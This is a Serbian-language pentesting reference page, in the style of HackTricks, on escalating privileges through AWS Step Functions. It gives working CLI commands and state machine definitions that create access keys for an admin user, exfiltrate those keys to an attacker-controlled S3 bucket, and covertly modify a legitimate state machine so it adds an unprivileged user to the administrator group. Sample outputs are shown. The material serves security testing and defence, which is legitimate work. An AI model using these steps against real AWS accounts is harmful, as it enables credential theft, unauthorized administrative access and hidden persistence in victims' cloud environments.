

# AWS - Step Functions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

Za više informacija o ovoj AWS usluzi, proverite:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### Task Resources

Ove tehnike eskalacije privilegija će zahtevati korišćenje nekih AWS step function resursa kako bi se izvršile željene akcije eskalacije privilegija.

Da biste proverili sve moguće akcije, možete otići na svoj AWS nalog, odabrati akciju koju želite da koristite i videti parametre koje koristi, kao u:

<figure><figcaption></figcaption></figure>

Ili možete otići na API AWS dokumentaciju i proveriti dokumentaciju za svaku akciju:

- [**AddUserToGroup**](https://docs.aws.amazon.com/IAM/latest/APIReference/API_AddUserToGroup.html)
- [**GetSecretValue**](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html)

### `states:TestState` & `iam:PassRole`

Napadač sa **`states:TestState`** & **`iam:PassRole`** dozvolama može testirati bilo koju državu i proslediti bilo koju IAM ulogu bez kreiranja ili ažuriranja postojeće mašine stanja, omogućavajući neovlašćen pristup drugim AWS uslugama sa dozvolama uloga. U kombinaciji, ove dozvole mogu dovesti do opsežnih neovlašćenih akcija, od manipulacije radnim tokovima do izmene podataka, do curenja podataka, manipulacije resursima i eskalacije privilegija.
```bash
aws states test-state --definition <value> --role-arn <value> [--input <value>] [--inspection-level <value>] [--reveal-secrets | --no-reveal-secrets]
```
Sledeći primeri pokazuju kako testirati stanje koje kreira pristupni ključ za **`admin`** korisnika koristeći ove dozvole i permisivnu ulogu AWS okruženja. Ova permisivna uloga bi trebala imati neku visoko privilegovanu politiku povezanu sa njom (na primer **`arn:aws:iam::aws:policy/AdministratorAccess`**) koja omogućava stanju da izvrši **`iam:CreateAccessKey`** akciju:

- **stateDefinition.json**:
```json
{
"Type": "Task",
"Parameters": {
"UserName": "admin"
},
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"End": true
}
```
- **Komanda** izvršena za izvođenje privesc:
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
"output": "{
\"AccessKey\":{
\"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
\"CreateDate\":\"2024-07-09T16:59:11Z\",
\"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
\"Status\":\"Active\",
\"UserName\":\"admin\"
}
}",
"status": "SUCCEEDED"
}
```
**Potencijalni uticaj**: Neovlašćeno izvršavanje i manipulacija radnim tokovima i pristup osetljivim resursima, što može dovesti do značajnih bezbednosnih propusta.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

Napadač sa **`states:CreateStateMachine`** & **`iam:PassRole`** mogao bi da kreira mašinu stanja i dodeli joj bilo koju IAM ulogu, omogućavajući neovlašćen pristup drugim AWS uslugama sa dozvolama te uloge. U poređenju sa prethodnom tehnikom privesc (**`states:TestState`** & **`iam:PassRole`**), ova ne izvršava sama po sebi, takođe će vam biti potrebne dozvole **`states:StartExecution`** ili **`states:StartSyncExecution`** (**`states:StartSyncExecution`** **nije dostupna za standardne radne tokove**, **samo za izražene mašine stanja**) kako biste započeli izvršavanje nad mašinom stanja.
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
Sledeći primeri pokazuju kako da se kreira mašina stanja koja kreira pristupni ključ za korisnika **`admin`** i eksfiltrira ovaj pristupni ključ u S3 bucket pod kontrolom napadača, koristeći ove dozvole i permisivnu ulogu AWS okruženja. Ova permisivna uloga bi trebala imati bilo koju politiku sa visokim privilegijama povezanu sa njom (na primer **`arn:aws:iam::aws:policy/AdministratorAccess`**) koja omogućava mašini stanja da izvrši akcije **`iam:CreateAccessKey`** i **`s3:putObject`**.

- **stateMachineDefinition.json**:
```json
{
"Comment": "Malicious state machine to create IAM access key and upload to S3",
"StartAt": "CreateAccessKey",
"States": {
"CreateAccessKey": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"Parameters": {
"UserName": "admin"
},
"ResultPath": "$.AccessKeyResult",
"Next": "PrepareS3PutObject"
},
"PrepareS3PutObject": {
"Type": "Pass",
"Parameters": {
"Body.$": "$.AccessKeyResult.AccessKey",
"Bucket": "attacker-controlled-S3-bucket",
"Key": "AccessKey.json"
},
"ResultPath": "$.S3PutObjectParams",
"Next": "PutObject"
},
"PutObject": {
"Type": "Task",
"Resource": "arn:aws:states:::aws-sdk:s3:putObject",
"Parameters": {
"Body.$": "$.S3PutObjectParams.Body",
"Bucket.$": "$.S3PutObjectParams.Bucket",
"Key.$": "$.S3PutObjectParams.Key"
},
"End": true
}
}
}
```
- **Komanda** izvršena za **kreiranje mašine stanja**:
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
"stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
"creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
- **Komanda** izvršena za **pokretanje izvršenja** prethodno kreirane mašine stanja:
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
"executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
"startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
> [!WARNING]
> S3 bucket pod kontrolom napadača treba da ima dozvole da prihvati s3:PutObject akciju iz naloga žrtve.

**Potencijalni uticaj**: Neovlašćena izvršenja i manipulacija radnim tokovima i pristup osetljivim resursima, što može dovesti do značajnih bezbednosnih propusta.

### `states:UpdateStateMachine` & (ne uvek potrebno) `iam:PassRole`

Napadač sa **`states:UpdateStateMachine`** dozvolom mogao bi da izmeni definiciju mašine stanja, dodajući dodatne stealth stanja koja bi mogla dovesti do eskalacije privilegija. Na ovaj način, kada legitimni korisnik pokrene izvršenje mašine stanja, ovo novo zlonamerno stealth stanje će biti izvršeno i eskalacija privilegija će biti uspešna.

U zavisnosti od toga koliko je permisivna IAM uloga povezana sa mašinom stanja, napadač bi se suočio sa 2 situacije:

1. **Permisivna IAM uloga**: Ako je IAM uloga povezana sa mašinom stanja već permisivna (na primer, ima priloženu **`arn:aws:iam::aws:policy/AdministratorAccess`** politiku), tada **`iam:PassRole`** dozvola ne bi bila potrebna za eskalaciju privilegija, pošto ne bi bilo potrebno takođe ažurirati IAM ulogu, sa definicijom mašine stanja je dovoljno.
2. **Nepremisivna IAM uloga**: U suprotnosti sa prethodnim slučajem, ovde bi napadač takođe zahtevao **`iam:PassRole`** dozvolu pošto bi bilo neophodno povezati permisivnu IAM ulogu sa mašinom stanja pored izmene definicije mašine stanja.
```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```
Sledeći primeri pokazuju kako ažurirati legitimnu mašinu stanja koja samo poziva HelloWorld Lambda funkciju, kako bi se dodalo dodatno stanje koje dodaje korisnika **`unprivilegedUser`** u **`administrator`** IAM grupu. Na ovaj način, kada legitimni korisnik pokrene izvršenje ažurirane mašine stanja, ovo novo zlonamerno stealth stanje će biti izvršeno i eskalacija privilegija će biti uspešna.

> [!WARNING]
> Ako mašina stanja nema povezanu permisivnu IAM ulogu, takođe bi bila potrebna dozvola **`iam:PassRole`** za ažuriranje IAM uloge kako bi se povezala permisivna IAM uloga (na primer, jedna sa **`arn:aws:iam::aws:policy/AdministratorAccess`** politikom priloženom).

{{#tabs }}
{{#tab name="Legit State Machine" }}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{{#endtab }}

{{#tab name="Zlonamerna ažurirana stanja mašine" }}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
"Next": "AddUserToGroup"
},
"AddUserToGroup": {
"Type": "Task",
"Parameters": {
"GroupName": "administrator",
"UserName": "unprivilegedUser"
},
"Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{{#endtab }}
{{#endtabs }}

- **Komanda** izvršena za **ažuriranje** **legitimne mašine stanja**:
```bash
aws stepfunctions update-state-machine --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:HelloWorldLambda --definition file://StateMachineUpdate.json
{
"updateDate": "2024-07-10T20:07:10.294000+02:00",
"revisionId": "1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
}
```
**Potencijalni uticaj**: Neovlašćena izvršenja i manipulacija radnim tokovima i pristup osetljivim resursima, što može dovesti do značajnih bezbednosnih propusta.

{{#include ../../../banners/hacktricks-training.md}}
